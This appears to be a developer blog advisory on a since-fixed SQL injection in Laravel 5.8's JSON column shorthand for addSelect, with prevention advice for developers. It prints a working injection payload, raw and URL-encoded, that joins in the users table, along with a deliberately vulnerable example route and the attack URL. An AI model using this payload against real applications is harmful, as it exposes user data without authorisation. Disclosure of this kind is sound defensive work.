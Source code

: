 **Important**: this vulnerability has been fixed and merged in [the 5.8 branch](*https://github.com/laravel/framework/pull/28160).

Laravel has the ability to manually specify which columns to select on a query.
It also offers a nice shorthand to work with JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') FROM blogs;
```

Instead of manually writing `JSON_EXTRACT`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `JSON_EXTRACT` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail, but what about the next one?

```
<hljs keyword>SELECT JSON_EXTRACT</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, here is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Users of this API might only be interested in a few fields, 
that's why we added a `fields` filter.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

What if we inserted our malicious code instead?

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to write to the `addSelect` or `select`.
Chances are you're not doing this manually in your project.
Though there are popular packages which allow this functionality to provide easy API endpoints.
A popular spec that inspires lots of API related packages is the JSON API spec. It specifically allows for [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets).
- The entry point table must have a column with JSON data. 
Otherwise the `JSON_EXTRACT` function will fail, stopping our query. 
From the entry point though, you can access all data.

{{ ad }}

## Prevention?

Be sure you update to the latest Laravel 5.8 version, as soon as the fix has been tagged.
It's already [merged](*https://github.com/laravel/framework/pull/28160), but not yet tagged.

Even more importantly, you should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could specify which fields are allowed to be requested, instead of accepting all input.

Next, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.

Finally, the [Laravel docs](*https://laravel.com/docs/5.8/queries) have also been updated 
to warn developers not to pass user input directly to columns when using the query builder. 
